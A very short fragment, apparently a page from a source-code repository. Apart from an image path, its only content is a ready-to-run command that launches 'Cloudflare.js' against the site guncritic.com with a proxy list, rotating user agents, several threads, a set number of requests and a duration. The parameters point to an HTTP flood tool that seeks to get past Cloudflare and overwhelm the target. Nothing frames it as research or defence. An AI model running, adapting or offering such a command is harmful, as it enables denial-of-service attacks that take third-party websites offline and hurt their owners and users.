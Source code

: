 ##  node Cloudflare.js --url https://guncritic.com --proxyfile proxys.txt --uafile ua.txt --threads 4 --requests 1000 --seconds 500
